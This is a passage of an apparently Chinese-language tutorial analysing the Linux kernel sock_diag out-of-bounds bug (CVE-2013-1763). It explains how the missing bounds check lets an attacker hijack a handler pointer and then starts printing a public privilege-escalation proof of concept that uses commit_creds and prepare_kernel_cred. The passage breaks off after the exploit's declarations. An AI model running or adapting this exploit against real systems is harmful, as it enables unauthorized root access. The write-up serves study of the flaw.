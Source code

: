 ``` C
static struct sock_diag_handler *sock_diag_handlers[AF_MAX];  //可以看出,这个指针数组最大为AF_MAX AF_MAX = 40.
```
接着我们再看看完整的`__sock_diag_rcv_msg`函数。
``` C
static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
{
    int err;
    struct sock_diag_req *req = NLMSG_DATA(nlh);
    struct sock_diag_handler *hndl;

    if (nlmsg_len(nlh) < sizeof(*req))
        return -EINVAL;

    hndl = sock_diag_lock_handler(req->sdiag_family);//这里传入sdiag_family的值,然后返回数组指针sock_diag_handlers[reg->sdiag_family].由于没有做边界判断，那么就可以越界。
    if (hndl == NULL)
        err = -ENOENT;
    else
        err = hndl->dump(skb, nlh); //看到这里是不是很激动呢，利用这里可以让它执行我们自己的代码
    sock_diag_unlock_handler(hndl);
    return err;
}
```
## 5. 漏洞的利用

虽然已经找到了kernel中有这样一个漏洞，但是如何利用这个漏洞来执行我们自己的程序，取得root权限还是需要很困难的，需要对kernel系统以及计算机运行原理非常了解才可以，并且这些程序往往需要精细设计才能达到最终的目的。 下面是某牛人写的exploit代码，请欣赏：
``` C
/* 
* quick'n'dirty poc for CVE-2013-1763 SOCK_DIAG bug in kernel 3.3-3.8
* bug found by Spender
* poc by SynQ
* 
* hard-coded for 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux
* using nl_table->hash.rehash_time, index 81
* 
* Fedora 18 support added
* 
* 2/2013
*/

#include <unistd.h>
#include <sys/socket.h>
#include <linux/netlink.h>
#include <netinet/tcp.h>
#include <errno.h>
#include <linux/if.h>
#include <linux/filter.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/sock_diag.h>
#include <linux/inet_diag.h>
#include <linux/unix_diag.h>
#include <sys/mman.h>

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long sock_diag_handlers, nl_table;

```